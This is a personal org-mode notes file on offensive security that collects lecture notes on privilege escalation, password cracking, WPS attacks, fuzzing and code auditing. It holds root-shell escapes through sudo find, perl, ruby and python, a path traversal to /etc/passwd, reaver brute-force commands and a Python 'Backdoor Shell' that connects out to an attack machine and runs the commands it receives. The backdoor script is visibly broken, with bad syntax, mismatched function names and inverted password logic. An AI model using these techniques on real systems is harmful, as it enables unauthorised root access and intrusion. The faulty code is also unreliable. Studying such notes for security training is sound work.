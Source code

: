 #+TAGS: sec_o


* Offensive							      :sec_o:
* Description
* Recon

* Enumeration
** using hex to move to the passwd file
 - 2E2E2Fetc/passwd - /../etc/passwd
* Exploitation
** Passwords
*** Cmds
- [[file://home/crito/org/tech/security/security_tools/hashcat.org][hashcat]]
- [[file://home/crito/org/tech/security/security_tools/john_the_ripper.org][John the Ripper]]
*** Links
[[http://www.adeptus-mechanicus.com/codex/jtrhcmkv/jtrhcmkv.php][John the Ripper and Hashcat - Markov Mode Comparison]]
** Priv Escalation
*** [[https://www.youtube.com/watch?v%3Ddk2wsyFiosg&t%3D37s][Linux Privilege Escalation - Jake Williams]]

- Only root users can:
  - Effectively hide
  - Bind ports below 1024
  - Read/Write any file
  - Persist easily between reboots
    
+ Binary exploits (shellcode) should be a last resort
  - Some priv escalation is a waiting game
    - writing a file to a cron.d directory
    - Must wait for crond to restart
    
- Kernel issues
  - uname -a
  - /etc/release
  - /etc/issue
  
- LMGFY to find known issues with these kernels and releases
  
+ Just because you find a kernel exploit doesn't mean you should use it
  - it might not be stable; immediate crash
  - You might get root and then crash the box
  - The exploit might have undesirable artifacts that get you caught

+ Simpler exploits are always better
  
+ Exploiting a vuln program running as root gives you root
  - Look for web servers, mail servers as a command injection here gives you root privs

+ Binary exploits of a root owned program are far less dangerous than a kernel exploit
  - Even if service crashes, the machine doesn't
  - Services probably will auto-restart

+ Trivially vuln setuid programs
  - run the ltrace cmd against any setuid and setgid programs found
  - A rediculous number of these are homegrown and use the 'system' syscall
  - If they don't specify the path, you win
    
  - Look for setuid programs with:
   - find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/gaping-security-hole

+ Cron jobs
- Can you read cron files owned by other users?
- Even if not some careful scripting with ps can help you find frequently run jobs
- Are any scripts or binaries in cron jobs subject to tampering?
- What about cron files themselves?
- Can you write to a cron.d directory?

+ Weak Permissions on Scripts
  - If a script with user writeable permissions is invoked as root, it may be modified to run arbitrary commands
  - Always check both world writeable and user writeable permissions before admitting defeat

  - Don't jush check the scripts called by priv users, many of these call other scripts internally
    - And many of those have weak permissions 
      
+ Weak permissions on binaries
  - user writeable permissions on binaries are less common than on scripts
  - unlikely to find world writeable binaries
    - but grop writeable bins are not unheard of, esp in custom software
      
+ Weak permissions on LD_PRELOAD
  - The LD_PRELOAD environ variable is a way to load a specific version of a shared lib for a given application
    - LD_PRELOAD is ignored for setuid programs
      
  - However a program may be invoked as root and be vuln
    
+ That shouldn't be setuid/setgid
  - An amazing number of sysads don't understand what should and shouldn't be setuid
  - Any command in sudo that can edit or overwrite files is an ob risk
  - Users with restricted sudo access can use it to obtain unrestricted root perms
  - In performing incident response, we've also seen obscure editors with the setuid bit set  
  - This is presumably a backdoor for the attacker to regain root perms at will
  - We sincerely hope no sysadmins are stupid enough to have setuid perms on editors
  - using the :shell in vi provides a root shell  

+ Don't sudo less
  - The less tool often used to page files can invoke an editor
  - On some buntu sys the default nano
  - Many sys still use vi as an editor
  - less can use ed to drop into default editor, and if vi you can spwan a root shell
  
  - more cmd is just as bad as less
    - ? key to see options    
    - ! will invoke shell cmds on most sys
      - !bash
      
+ Don't sudo cp and mv
  - We can't think of a good reason for either
  - With sudo cp of sudo mv, you can overwrite /etc/shadow or other critical files and obtain bd access
    
+ Don't sudo find
  - The find cmd is often set with sudo perm so helpdesk can find and clean large temp files
  - Besides obs screw up ops, this is a big sec hole
  - find . -exec bash -i \;
    
+ Don't sudo script interpreters
  - All unsafe:
    - Python
    - Perl
    - Ruby
    - Lua
    - others...

- Perl
#+BEGIN_SRC pl
sudo perl
exec "/bin/bash";
#+END_SRC

- Ruby
#+BEGIN_SRC rb
sudo ruby
exec "/bin/bash"
#+END_SRC

- Python
#+BEGIN_SRC py
sudo python
import os
os.system('/bin/bash/')
#+END_SRC

* Maintaining Access 
* Covering Tracks
* Attacks
** Cold boot
** Cross Site Request Forgery (CSRF)
** Cross Site Tracing (XST)
** DLL injection
** Evil Maid
** Heartbleed
** Local File Inclusion Vulnerability
** Man in the Middle
** Pixie Dust Attack
- Wifi Protected Setup (WPS)
- Uses a PIN to allow access to home network

- 8 digits - 7 | 1 - checksum
  - 7 -> 4 + 3
    
- Problem is how the protocol generates the E S1 and E S2 values, pseudo random numbers
- Some vendors also implement the protocol poorly
- Broadlink uses the C rand() function
- Ralink never generates an E S1 or E S2 value and they remain 0

- if the random number state is recovered then E S1 and E S2 can be calculated
- PSK1 and PSK2 can be calculated from the E-hash1 and E-Hash2 values
*** aircrack
1. airmon
2. wash -i wlan0mon
3. Copy the ESSID
4. reaver -c 1 -i wlan0mon -b <essid> -vv -K 1
- if this fails you can always bruteforce the wps
#+BEGIN_SRC sh
reaver -c 1 -i wlan0mon -b E0:91:F5:6F:3F:C6 -vv
#+END_SRC


** Ruby attack
** Shellshock
** SMB Relay Attack

* Code
** Python
*** Backdoor Shell
#+BEGIN_SRC py
#!/usr/bin/python
import subprocess #Process commands
import socket #Process socket data

host = '127.0.0.1' # Attack Machine
port = 443 # Attack Port
passwd = 's3cr3t' 

# chek password
def Login():
    global s
    s.send("Login: ")
    pwd = s.recv(1024)

    if pwd.strip() is passwd:
        Login()
    else:
        s.send("Connected #> ")
        shell()

# Execute shell cmds
def Shell();
    while True:
        data = s.recv(1024)

        if data.strip() == ":kill":
            break

        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        s.send("#> ")

# Start Script
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
Login()
#+END_SRC
* Lecture
** [[https://www.youtube.com/watch?v%3DgYOy7CGpPIU][The Makin of atlas: Kiddie to Hacker in 5 Sleepless Nights]]
http://atlas.r470y.com/ - atlas blog   

- Tools
  - objdump - reads the headers of executables
    - objdump -x demystified - this will dump all headers
  - ReadElf
  - GDB
  - Ktrace/KDump
    
** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]

- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
* Tutorial
** PluralSight - System Hacking - Dale Meredith

*** Intro

What to do before attack
+ recon & footprinting
    - ip range
    - Namespace
    - Public Data
+ Scanning
    - ID targets
    - ID services
    - ID O/S
+ Enumeration
    - User lists
    - Security flaws
    - Resources

What are our goals
+ Gain Access
+ Maintaining Access
+ Covering Tracks


**** Gaining Access
Complexity - MS you must use at least 3 of Upper case, Lower case, Numbers and Special characters
Password recovery time simulator - free

***** Architecture
****** Windows
Local machines: SAM Database - C:\windows\system32\config\sam
Stored as hashes - mounted as HKLM/SAM
Older machines may have C:\windows\repair with backups of passwords

Active Directory: ntds.dit - C:\windows\ntds
stores all passwords for domain controller     

****** Linux
/etc/shadow

****** OS X
/var/db/dslocal/nods/default/users

ophcrack to crack the hash - ophcrack has a live cd


****** Techniques Used
+ Dictionary Attack - Text files of words - Languages - Subjects
+ Brute-Force Attacks - Takes longer - beyond 14+ starts getting difficult
+ Syllable Attacks - Dictionary and brute-force attack
+ Hybrid Attacks - Dictionary using variation on numbers & special chars
+ Rule-Base Attacks - Using discovered rules to specify shape of password
+ Guessing - Using information gleaned to make educated guesses - social media etc
  
****** Types of Attacks
| Passive Online | Sniffing, MIM, Sidejacking(firesheep)             |
| Active Onle    | Hash injection, trojan/keylogger                  |
| Offline        | Rainbow, Distributed network, pre-computed hashes |
| Non-electronic | Dumpster diving, social engineering               |

Hashes 
LM Hash - des
+ LM Hash/NTLM stores passwords up to 14 chars
+ All characters are converted to UPPER case
+ Padded with blank characters to fill out all 14 chars.
+ Then split into 7 chars stings
+ Each 7 char string is then encrypted and combined back 

NTLM 1 - md4 NTLM 2 - md5
Bwayne:1005:85D8D0AEB8D112F8F9954FC9DF57E012:ED7B273FDE21FFE559AC8D1B9D3729BC:::
Administrator:500: xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:NOPASSWORD**********************:NOPASSWORD*********************:::

Notes
+ 500 cid in MS is always admin
+ Any hash that ends with: AAD3B435B51404EE - last 7 chars blank
+ Any password with 15+ chars: the LM hash value is "dummied" with AAD3B435B51404EEAAD3B435B51404EE

****** NTLM Authentication
+ NTLM is used whtn 
  - There is no Kerberos trust between two different forests
  - Authentication is attempted by IP and not by DNS
  - If oe or both systems are not in the same domain
  - If your FW is blocking Kerberos ports
  
******* How it's used
+ Challenge response algorithm
+ Passwords are not transmitted
+ V1 came with NT - V2 cam with NT SP4

******* The Process

user enters pass -----> windows generates a hash
        |
        |
        ---------------------------------------------> Domain Controller
	                      Request                            |
          <-------------------------------------------------------	
                             hash sent by DC
       ---------------------------------------------------------->
                      hast and challenge sent back
		      
****** Kerberos Authentication - used on modern MS
+ Ticket based
+ Avoids transmitting passwords
+ Time based

1. user requests TGT 
2. DC issues TGT
3. TGT is presented to machines in the network to access services
PDC needs to be synced otherwise kerberose doesn't work

****** Salting 
+ Append or prepending random strings
+ done before hashing
+ prevents duplicate hashes
+ unique to each password
  
****** Rainbow tables
+ Precomputed hash tables
+ Huge files

+ website for checking hashes tobtu.com 
+ lm hash checking hashes rainbowrables.it64.com
+ dictionaries can be found at outpost9.com

**** Maintaining Access
     
+ Look around
  - config errors
  - design errors
  - layouts
  - programming flaws

***** Four Methods for Escalation
1. Pwn the admin/root acct
2. Take advantage of vuln
3. Fire up the sploit - alt to sploit - canvas, core-impact
4. Have a user do it for you!

***** Types of Escalation
+ Vertical - user gains admin level access
+ Horizontal - move to a user 
  
***** Counter Measures
+ encryption - encrypted hdd 
+ Least priv - don't over allocate a user
+ sw upto date
+ Limit interactive logon
+ Service accts are limited
+ Limit code that can run with privs

***** Slow down attacker
+ Priv separation approach
+ test os and app code before running
+ Multi-factor
+ Stress test code, apps befor deploying

**** Cover Tracks

** ISSA Web Pen-testing Workshop
*** [[https://www.youtube.com/watch?v%3DJPd2YtgJm8Q][Intro to Mutillidae, Burp Suite & Injection]]
*** [[https://www.youtube.com/watch?v%3DxSqw-KwQatI][Webshells]]
- on kali they are found in /usr/share/webshells

- weevely - github and kali more advanced webshell
  - instead of using puts ands gets it uses cookies
- neopi - 
*** [[https://www.youtube.com/watch?v%3DKJn2HIpFmO0][HTML & Javascript Injection]]
- burp sutie has a builtin decoder for encoding webshell code
*** [[https://www.youtube.com/watch?v%3Dt-44ZsaeIQE&t%3D3s][Beef Hooks]]
*** [[https://www.youtube.com/watch?v%3Dd71YfVR1eWA][JSON Injection]]

** Offensive Security 2013 - FSU 
*** [[https://www.youtube.com/watch?v%3D4yNgP3CUOWo][Lecture 2: Linux Overview]]
*** [[https://www.youtube.com/watch?v%3D3y8JuixcSdU][Lecture 7: Fuzzing]]

- Exploitation Theory
  - Von Neumann Arch
    - unable to distinguish between data and instructions
    - instruction and data stores in same memory
      - this allows for the modification of code
  - Harvard Mode
    - this seperates out data and instruction into there own memory
      - this is implemented inside processors for specfic tasks, but not on whole systems
  - Other Architectures
    - Tagged Arch
    - Capablility Arch
    - Trusted Computing Base

- Exploits can be generalized into a three step process
1. Some sort of memory corruption
2. Change / hijack of control flow
3. Execution of the shellcode
   
- What is fuzzing?
  - The process of sending specific data to an application in hope to elicit certain responses
  - Specific?
    - Mutated data, generational data, edge cases, unanticipated datatypes, etc.
  - Certain?
    - crashes, errors, anomalous behaviour, different application states
      
- Fuzzing Phases
  1. Identify Target (application)
  2. Identify inputs
  3. Generate Fuzzed Data
     - Two methods for fuzzing data
      i) Generation
      ii) Mutation
  4. Execute Fuzzed Data
  5. Monitor for Exceptions
  6. Determine Exploitability
     
- Methods for generating fuzzed data
  - Generation fuzzing
  - Mutation fuzzing
    
- Generating fuzzed data
  - String repetitions
    - A*10, A*100, A*1000
  - Character translations
  - Directory Traversal
  - delimiters
  - Metacharacter / Command injection
    - sql -- comment
  - File types
  - Bit Flipping for protocol headers

Vulnerablility Scoring
http://www.first.org/cvss

HAOE book cd has a vanilla system that has a lot of the counter measures switched off 

** Offensive Security 2014 - FSU
Owen Redwood
*** [[https://www.youtube.com/watch?v%3Dlk3rp53b2NA][Lecture 1: Intro]]
- reading list
  - hacking the art of exploitation
  - the hacker's handbook to web applications

*** [[https://www.youtube.com/watch?v%3DlbjS2mXyMEQ][Lecture 2 - Secure Coding in C]]
- web tool that visuzlises code to assemby
  - http://gcc.godbolt.org
- reading list    
  - Secure Coding in C and C++ - Robert Seacord
    
http://websec.github.io/unicode-security-guide/character-transformations/

*** [[https://www.youtube.com/watch?v%3DyXX6DWFTLaQ][Lecture 3: Secure Coding in C cont]]
reading:
http://blog.reghr.org/archives/1054 - cryto lib bugs
http://www.cs.utah.edu/~regehr/papers/overflow12.pdf
http://floating-point-gui.
0x352 HAOE - Formatted Output Security
0x280 up to 0x300
0x350 up to 0x400

Race conditions
  - CVE-2007-4303
  - CVE-2007-4302

*** [[https://www.youtube.com/watch?v%3DMnmX911MqMU&t%3D3176s][Lecture 4]]
Links:
[[http://cve.mitre.org][Common Vulns and Exposures - CVE]]
[[http://cwe.mitre.org][Common Weakness Enumeration - CWE]]
[[http://cce.mitre.org][Common Configuration Enumeration - CCE]]
Seven kingdoms of exploit
[[http://nvd.nist.gov/home.cfm][National Vuln Database]]

CVEs
- list of information security vulns that aims to provide common names for publicly known problems
- Goal to make it easier to spread/share data
- Run by MITRE

Vuln - "is a mistake in software that can be directly used by a hacker to gain access to a system or network"

CCE
- Assigns unique identifiers to configuration guidance statements
  - The required permissions for accessing the directory %System Root%\System32\Setup should be "Administrator Account" only
  - The "account lockout threshold" for failed password attempts should be 3
  - For Linux, passwords should be stored in either SHA256 or SHA512 or the default DES formats and in the /etc/shadow file not the /etc/passwd file
    
CWE
- A softwate weakness is an error that may lead to a software vuln, such as those enumerated by the CVE list
- Examples software weaknesses include:
  - buffer overflows, format strings, etc
  - structure and validity problems; common special element manipulations
  - channel and path errors
  - handler errors
  - user interface errors
  - pathname traversal and equivalence errors
  - authentication errors
  - resource management errors

Code Nomenclature

Code ----> Bugs ----> Weaknesses ---- --> Exposures  -----> 
                                                            |                                     Exploited Vulns
							    ----   Vulns   ----------> 

Discovering Vulns
3 Primary Methods:

1. Source code Auditing
  - Requires Source Code
    
2. Reverse Engineering
  - Can be done withourt source code
  - Requires binary applications
  - very time consuming and requires high technical skill
    
3. Fuzzing
  - Lost of tools/Frameworks exist
  - Easy to make custom ones
  - Binary or source code availability is unimportant 
    
Auditing tools
- Author's source code comments
- Editors/Reading Tools
  - vi/emacs; source insight; eclipse; source-navigator
-Pattern matchng tools    
- Static analyzers
  - prone to missing vulns
  - prone to false pos+

Approaches
- Find the most bugs?
- Find the easiest to find bugs?
- Find the weaknesses that are most reliable to exploit?

It is important to limit the approach
 - will never have enough time to find all the bugs
   
General Methodology
1. Understand the Application
   - features
   - Architecture
     - what over services does the application require
   - Programming Lang
   - Compnents
      - DB - try to hit db for sqli
      - file shate - try to upload a file
     
2. Understand the Attack Surface
   - You must choose which ones to focus on 
     - Sabotage
       - defacing, attacker deleting records, altering them, destroying user trust
     - Gaining Access
       - attack / harass other users
       - botnet
       - identity theft
     - Piracy/theft

3. Target your efforts
   - depends on your style
     
Targeting: How to think like an attacker
  Traditional strategies:
    - ipurt sources related to code paths
    - target important components
      - security mechanisms
        - Auth
	- http/https
      - Data mgmt/DB
      - Interpreters (php)
    - Complex parsing, protocols or functions 
  Meta Targeting startegies
    - Start by looking at source code comments      
      - grep for:
        - fix this, todo!, xxx, *****
        - swearing/typos
        - old code
          - old libs
	- code checked in at 4am
	- code checked in at same time as other buggy code
	  
Reading Code
  - Review fewer than 200-400 lines of code at a time
  - Faster code review is not better
    - Optimal code review is around 300-500 loc
  - Never review code for more than 90 mins at a time
    -significant diminishing returns after this
  - Be thorough
    - vast majority of code is ok
  - Avoid making assumptions    
    - can cause you to miss bugs, or assume something is done correctly
  - Look for abstraction
    - switching between C and C++ styles of code
      - two different devs with different backgrounds > bugs
  - Focus on code patterns
    - copy paste chunks
      - forgetting to up chuck variables

-------------------------

Look up off by one errors
sizeof !=strlen
- size of bytes not elements
  
Programs in memory
- .txt section
   - contains machines intstructions
- .data section
   - global initialized variables
- .bss section
- heap section
- stack section
  
Gerenal Bug Categories 
1. API Based Bugs
2. Programming Construct Errors
3. State Mechanics
4. External Resource Interactions
-- refer to the seven kingdoms



* Books
* Links
